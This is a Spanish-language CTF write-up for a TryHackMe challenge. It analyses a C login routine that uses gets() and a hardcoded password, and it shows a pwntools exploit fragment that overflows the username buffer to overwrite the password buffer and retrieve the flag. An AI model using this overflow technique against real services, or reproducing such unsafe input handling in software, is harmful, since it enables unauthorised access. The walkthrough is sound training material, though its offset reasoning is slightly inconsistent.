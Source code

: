 # 🛡️ CTF Writeup: Flag Vault (TryHackMe) 🚩

### Descripción del Desafío

"Cipher me pidió que creara la bóveda más segura para las banderas, así que creé una bóveda inaccesible. ¿No me crees? Pues aquí tienes el código con la contraseña codificada. Aunque ya no sirve de mucho."

El reto proporciona el código fuente de un sistema de inicio de sesión basado en C. El objetivo es bypassear o explotar este sistema.

## 1. 🔍 Detección y Conexión (Ping)
Confirmamos que la máquina objetivo está activa y accesible.

Máquina Objetivo: 10.10.162.176

Herramienta: ping

Comando Ejecutado
````bash
ping -c 4 10.10.162.176
````

<img width="596" height="285" alt="Ping" src="https://github.com/user-attachments/assets/a8710d2f-42dd-4561-9f6c-e02cdde766c2" />

Resultado
````
Métrica,Valor
Paquetes Transmitidos,4
Paquetes Recibidos,4
Pérdida de Paquetes,0%
TTL,63
````
✅ Conclusión: La máquina está activa y la conexión es estable.

## 2. 📖 Análisis del Código Fuente C (FlagVault.c) 🧐
El desafío nos proporciona el código fuente del binario que se ejecuta en la máquina objetivo. El análisis se centra en la función login() para identificar la vulnerabilidad o la lógica de autenticación.

Función login() Detallada
Al examinar la función login(), encontramos la siguiente estructura:

````C
void login(){
    char password[100] = "";
    char username[100] = "";

    printf("Username: ");
    gets(username); // <-- ⚠️ Primer Punto Crítico

    // IF I disable the password, nobody will get in.
    // printf("Password: ");
    // gets(password); // <-- Línea de entrada de contraseña COMENTADA

    if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte")){
        print_flag();
    }
    else {
        printf("Wrong password! No flag for you.");
    }
}
````

### Puntos Clave y Vulnerabilidades

Uso de gets(): La función gets() es extremadamente insegura porque no verifica el límite del buffer, lo que permite un Buffer Overflow (desbordamiento de buffer) si la entrada del usuario excede los 100 bytes asignados a username.

Lógica de Autenticación Rota:

El código para solicitar la contraseña (gets(password);) está comentado.

Sin embargo, la verificación de la contraseña aún se realiza en la línea !strcmp(password, "5up3rP4zz123Byte").

El Buffer de la Contraseña:

La variable password se inicializa a una cadena vacía ("").

Como no se le pide al usuario que ingrese la contraseña, la variable password mantiene su valor inicial: una cadena vacía.

### Identificación de la Explotación

La condición de autenticación es: if(!strcmp(username, "bytereaper") && !strcmp(password, "5up3rP4zz123Byte"))

Donde:

username debe ser "bytereaper".

password debe ser "5up3rP4zz123Byte".

¡Pero espera! Debido al bug de la lógica:

La variable password realmente contiene una cadena vacía ("").

La variable username la controlamos nosotros.

La verdadera vulnerabilidad que debemos considerar es que la función login() utiliza gets(username) y luego llama a la función print_flag() si se cumplen las condiciones. El buffer de password está en la stack justo después del buffer de username.
````
Variable,Tamaño,Contenido Inicial
password,100 bytes,""""" (vacío)"
username,100 bytes,""""" (vacío)"
````
Si explotamos el Buffer Overflow en username, podemos sobrescribir el buffer de password con la contraseña correcta: "5up3rP4zz123Byte".

## 3. 🐍 Creación del Exploit (Python)

Se utilizó la librería pwntools en Python para automatizar el proceso de Buffer Overflow y la búsqueda del padding exacto.

### Lógica del Payload
El payload está diseñado para cumplir la condición de autenticación al forzar los valores de las variables en memoria:

1. bytereaper + \x00: Esto se escribe en el buffer de username. El \x00 (byte nulo) es esencial porque truncará la función de comparación de cadenas (strcmp) justo después de bytereaper, haciendo que strcmp(username, "bytereaper") sea verdadero.

2. 0 * padding: Se utilizan bytes de relleno para llegar al inicio de la variable password en el stack. El exploit itera este valor desde 80 a 130 para encontrar el offset correcto.

3. 5up3rP4zz123Byte: Esta es la contraseña real. Sobrescribe el valor de la variable password en la memoria stack, haciendo que strcmp(password, "Sup3rP4zz123Byte") sea verdadero.

Código del Exploit (Fragmento)
````Python
# === BÚSQUEDA ITERATIVA ===
for padding in range(PADDING_MIN, PADDING_MAX + 1):
    # ... conexión remota ...

    payload = (
        USERNAME_PART +  # bytereaper
        b'\x00' +        # Byte nulo para truncar strcmp
        b'0' * padding + # PADDING (ej. 80-130 bytes)
        PASSWORD_REAL    # Sobrescribe el buffer 'password'
    )
    
    # ... envío y chequeo de la respuesta ...
````

## 4. 🚀 Ejecución del Exploit y Obtención de la Flag

Ejecutamos el script exploit.py para automatizar la búsqueda del padding y la explotación del Buffer Overflow.

<img width="449" height="518" alt="Flag" src="https://github.com/user-attachments/assets/b6eee258-88bf-476a-a220-f22f905c5f6c" />

Comando Ejecutado
````Bash
python exploit.py
````
Resultado y Éxito 

El script comenzó a probar padding desde $80$ hasta $100$ sin éxito. Al probar conpadding = 101, la respuesta del binario remoto cambió de "Wrong password" a una "Respuesta rara". Esta "respuesta rara" es la ejecución de la función print_flag(), que devuelve la flag.
````
Métrica,Valor
Padding Exitoso,101
Resultado,THM{...}
````

🥳 Conclusión: El offset de $101$ bytes es el padding exacto requerido entre el final del buffer de username (incluyendo \x00) y el inicio del buffer de password. Al sobrescribir password con el valor correcto, la condición lógica se cumplió y se ejecutó la función print_flag().
